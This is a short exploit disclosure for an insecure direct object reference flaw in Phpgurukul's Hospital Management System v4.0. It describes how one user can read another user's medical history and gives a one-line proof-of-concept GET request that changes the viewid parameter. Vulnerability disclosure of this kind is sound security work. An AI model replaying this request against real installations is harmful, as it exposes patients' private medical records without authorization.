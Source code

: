 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Phpgurukul
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker user to look up the other user's medical history(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /hospital/hms/view-medhistory.php?viewid=3(CHANGE HERE) HTTP/1.1
...
```





